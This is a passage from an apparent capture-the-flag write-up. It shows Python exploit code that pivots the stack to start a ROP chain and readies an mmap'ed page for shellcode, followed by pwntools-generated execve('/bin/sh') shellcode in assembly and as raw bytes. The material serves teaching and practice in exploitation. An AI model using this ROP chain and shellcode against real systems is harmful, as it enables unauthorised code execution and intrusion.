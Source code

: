 ```python
# subtract r15 address by 128*32 = 4096 (0x1000)
# so r15 will point to the later/new mmap'ed page, where we will put shellcode
instructions += [
    'mov r14, r15',
    'lea r15, [r14-128]',
] * 32

# copies main address to [r13+8]
instructions += [
    'mov r14, [rbp+56]',    # gets main address to r14
    'mov [r13+8], r14',     # puts main address under memory pointed by r13+8
]
# After above we will have r13 storing a stack addr where we will have:
# +0: `alloc_page` function address
# +8: `main` function address
#
# Below instruction will start our ROP chain
instructions += ['mov rsp, r13']

for instr in instructions:  # execute first part of our ROP
    send_instr(instr)
```

After this part I have also checked whether it works on remote - as `main` execution prints out `"initializing prof...ready"` - and it worked :).

As R15 is never used by the program when the next `main` execution goes again to `do_test` the R15 points to 4k RW `mmap`'ed memory into which we can write our shellcode.
Grabbing a shellcode is fairly easy and can be done using pwntools. Lets see it in IPython:
```python
In [1]: print pwn.shellcraft.amd64.sh()
    /* execve(path='/bin///sh', argv=['sh'], envp=0) */
    /* push '/bin///sh\x00' */
    push 0x68
    mov rax, 0x732f2f2f6e69622f
    push rax
    mov rdi, rsp
    /* push argument array ['sh\x00'] */
    /* push 'sh\x00' */
    push 0x1010101 ^ 0x6873
    xor dword ptr [rsp], 0x1010101
    xor esi, esi /* 0 */
    push rsi /* null terminate */
    push 8
    pop rsi
    add rsi, rsp
    push rsi /* 'sh\x00' */
    mov rsi, rsp
    xor edx, edx /* 0 */
    /* call execve() */
    push SYS_execve /* 0x3b */
    pop rax
    syscall

In [2]: pwn.asm(pwn.shellcraft.amd64.sh(), os='linux', arch='amd64')
Out[2]: 'jhH\xb8/bin///sPH\x89\xe7hri\x01\x01\x814$\x01\x01\x01\x011\xf6Vj\x08^H\x01\xe6VH\x89\xe61\xd2j;X\x0f\x05'
```
